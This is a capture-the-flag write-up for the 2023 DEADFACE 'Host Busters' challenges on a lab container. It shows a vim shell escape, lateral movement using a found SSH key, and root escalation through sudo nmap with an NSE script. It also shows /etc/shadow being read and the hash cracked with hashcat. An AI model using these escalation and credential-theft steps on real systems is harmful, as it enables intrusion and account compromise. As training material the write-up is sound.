 ```yaml
---
tags:
  - ctf
  - 2023-deadface
  - forensics
  - linux
layout: ctf
type: problem
ctf: 2023-deadface
category: forensics
title: Host Busters
points: 750
solved: true
---
```


# Host Busters 1

## Instructions

Created by: syyntax

Turbo Tactical has gained access to a DEADFACE machine that belongs to `gh0st404`. This machine was used to scan one of TGRI’s websites. See if you can find anything useful in the `vim` user’s directory.

_On a side note, it’s also a good idea to collect anything you think might be useful in the future for going after DEADFACE._

Submit the flag as `flag{flag_here}`.

## Solution

Connect to the container with the SSH credentials provided in the challenge description.

Exit the vim interface with `:!/bin/bash` and read the first flag.

```
vim@fbca68866a64:~$ ls
hostbusters1.txt
vim@fbca68866a64:~$ cat hostbusters1.txt 
flag{esc4P3_fr0m_th3_V1M}
```

# Host Busters 2

## Instructions

Now that you’ve escaped out of `vim`, scope out and characterize the machine. See if there are any other flags you can find without having to escalate to another user.

Submit the flag as `flag{flag_here}`.

## Solution

While doing recon on the machine we see two listening services:
- SSH on TCP port 22 (we're using this to connect to the machine)
- Some UDP service on port 9023

Connecting to the unknown service on the udp port gives us the flag.

```
vim@fbca68866a64:~$ ss -tulpn
Netid   State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port   Process                                                                         
udp     UNCONN   0        0                0.0.0.0:9023          0.0.0.0:*       users:(("srv",pid=7,fd=3))                                                     
tcp     LISTEN   0        128              0.0.0.0:22            0.0.0.0:*                                                                                      
tcp     LISTEN   0        128                 [::]:22               [::]:*                                                                                      
vim@fbca68866a64:~$ nc -u localhost 9023

flag{Hunt_4_UDP_s3rv3r}
```

# Host Busters 3

## Instructions

Continue characterizing the machine. Is there any way you can escalate to a user that has permissions the `vim` user does not have? Find the flag associated with this user.

Submit the flag as `flag{flag_here}`.

## Solution

Searching around we see the gh0st404 user's home directory which has the flag we want to read. However we're unable to read it with our current permissions.

```
vim@fbca68866a64:~$ ls /home
gh0st404  mort1cia  spookyboi  vim

vim@fbca68866a64:~$ cd /home/gh0st404/

vim@fbca68866a64:/home/gh0st404$ ls
config  hostbusters3.txt  id_rsa  tgri-alive.xml  tgri-scan.xml

vim@fbca68866a64:/home/gh0st404$ cat hostbusters3.txt 
cat: hostbusters3.txt: Permission denied
```

Use the `id_rsa` ssh key to connect to the machine locally as gh0st404.

```
vim@fbca68866a64:/home/gh0st404$ ssh -i id_rsa gh0st404@localhost

gh0st404@fbca68866a64:~$ cat hostbusters3.txt 
flag{Embr4c3_th3_K3y_t0_5ucc355!}
```

# Host Busters 4

## Instructions

TGRI believes a sensitive project proposal was compromised in a recent attack from DEADFACE. Find the proposal and submit the flag associated with this document.

Submit the flag as `flag{flag_here}`.

## Solution

Now that we're the gh0st404 user, we can see that they have permission to run nmap with sudo permissions. 

```
gh0st404@fbca68866a64:~$ sudo -l
Matching Defaults entries for gh0st404 on fbca68866a64:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User gh0st404 may run the following commands on fbca68866a64:
    (ALL) NOPASSWD: /usr/bin/nmap
    (ALL : ALL) NOPASSWD: /etc/init.d/ssh start
```

Use the escalation technique at [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#sudo) to escalate to root.

```
gh0st404@fbca68866a64:~$ TF=$(mktemp)
gh0st404@fbca68866a64:~$ echo 'os.execute("/bin/bash")' > $TF
gh0st404@fbca68866a64:~$ sudo nmap --script=$TF
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-24 06:11 UTC
NSE: Warning: Loading '/tmp/tmp.J8glzTvOih' -- the recommended file extension is '.nse'.

root@fbca68866a64:/home/gh0st404# id
uid=0(root) gid=0(root) groups=0(root)
```

Looking around for interesting documents we find a pdf. At the bottom of the pdf is the base64 encoded flag.

```
root@fbca68866a64:/home# ls
gh0st404  mort1cia  spookyboi  vim

root@fbca68866a64:/home# cd spookyboi/

root@fbca68866a64:/home/spookyboi# ls
proposal.pdf

root@fbca68866a64:/home/spookyboi# tail -n 1 proposal.pdf | base64 -d 
Host Busters 4: flag{Abus3_oF_p0w3R}
```

If you exfiltrate the pdf and open it in a pdf viewer, the flag is also at the bottom of document in red.

# Host Busters 5

## Instructions

See if you can crack `gh0st404`’s password. Based on Ghost Town conversations, we suspect the password is found in common wordlists.

Submit the flag as `flag{password}`.

## Solution

Since we're already root getting the password hash for gh0st is trivial.

```
root@fbca68866a64:/home/spookyboi# cat /etc/shadow | grep gh0st
gh0st404:$6$5d63619132db26f0$4FF5/xxtU1.OPzv2OdnWmB0mG5kqyMGUCAW8crE5ZqS24v6i1sM806eh8SigsZLxeJs/EtK0RJuB.eD.wTjLp/:19568:0:99999:7:::
```

Grab just the hash portion of the shadow entry and feed it to hashcat. The challenge description hints that this should be easy to crack with a common wordlist like rockyou.

```
$ hashcat -m 1800 -a 0 hashes /usr/share/wordlists/rockyou.txt
$6$5d63619132db26f0$4FF5/xxtU1.OPzv2OdnWmB0mG5kqyMGUCAW8crE5ZqS24v6i1sM806eh8SigsZLxeJs/EtK0RJuB.eD.wTjLp/:zaq12wsx
```

The final flag:
```
flag{zaq12wsx}
```
